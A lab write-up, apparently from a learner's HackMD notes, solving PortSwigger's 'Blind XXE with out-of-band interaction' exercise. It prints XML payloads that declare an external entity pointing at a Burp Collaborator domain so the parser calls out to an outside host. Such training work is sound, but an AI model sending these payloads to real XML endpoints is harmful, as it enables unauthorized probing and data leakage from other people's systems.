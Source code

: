 # Lab: Blind XXE with out-of-band interaction
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab has a "Check stock" feature that parses XML input but does not display the result.
You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.
* Goal: To solve the lab, use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
* Hint:

## [Background](https://portswigger.net/web-security/xxe/blind)
> 有兩種廣泛的方法可以找到和利用Blind XXE 漏洞：
>
>您可以觸發out-of-band網絡交互，有時會在交互數據中泄露敏感數據。
>您可以通過錯誤消息包含敏感數據的方式觸發 XML 解析錯誤。

## Recon
1. Declare a new entity and reference it
    :::spoiler Payload
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE test [ <!ENTITY xxe "test"> ]>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
    ```
    :::
    ![](https://hackmd.io/_uploads/BJpoMFLE2.png)
    As the result above, it seems can accept a new entity, then we can use it in `xml`
    
    ---
    :::spoiler Payload
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE test [ <!ENTITY xxe "test"> ]>
    <stockCheck>
        <productId>
            &xxe;
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
    ```
    :::
    ![](https://hackmd.io/_uploads/HkO4QYUEn.png)

2. So..., we can use out-of-band server try to leak some information


## Exp
1. Use Burp Collaborator
![](https://hackmd.io/_uploads/Sk3lDtIVh.png)
And copy the collaborator's payloads
    :::spoiler Payload
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://s92t6q0ljljd7fttguns4mrdy44wsl.burpcollaborator.net"> ]>
    <stockCheck>
        <productId>
            &xxe;
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
    ```
    :::
    
2. Result
    ![](https://hackmd.io/_uploads/S1W7YKIV3.png)

:::spoiler Success Screenshot
![](https://hackmd.io/_uploads/r13iWF84h.png)
:::

## Reference
[Lab: Blind XXE with out-of-band interaction](https://www.cnblogs.com/Zeker62/p/15190054.html)
[XXE Lab Breakdown: Blind XXE with out-of-band interaction](https://youtu.be/T3eo0CtYzYo)